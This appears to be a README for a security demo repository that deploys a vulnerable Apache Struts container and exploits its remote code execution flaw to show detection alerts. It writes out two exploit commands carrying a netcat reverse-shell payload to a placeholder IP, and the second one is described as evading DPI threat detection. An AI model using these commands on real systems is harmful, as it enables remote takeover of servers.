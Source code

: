 # struts-demo

Scripts for struts RCE demo and yaml file to deploy vulnerable container running struts super-app tomcat website.

## Prep

We will be using a struts RCE demo application.

It can be installed via Helm from the `helm/struts-rce` directory or simply adding this git repository to the Rancher Catalog and deploy the struts-rce application.

Alternate deployment file (struts.yaml) is available in the current directory and use a Load Balancer to expose the application.

## Exploit

Use the Ingress name of the website or Load Balancer IP with the python scripts to exploit a remote code execution vulnerability in the struts container.

Use the struts1.py first (insert your own IP addresses for the website and the reverse shell using 1337 (LEET) port address.
```
python3 struts1.py http://xxx.xxx.xxx.xxx:8080/super-app/orders/3 'nc -nv 123.456.789.100 1337 -e /bin/sh'
```

Exploit should be blocked and alerts appear in Notifications->Security Events.

Then use the struts-pwn2.py script to avoid DPI threat detection.
```
python3 struts-pwn2.py --exploit --url 'http://xxx.xxx.xxx.xxx:8080/super-app/orders/3' -c 'nc -nv 123.456.789.100 1337 -e /bin/sh'
```
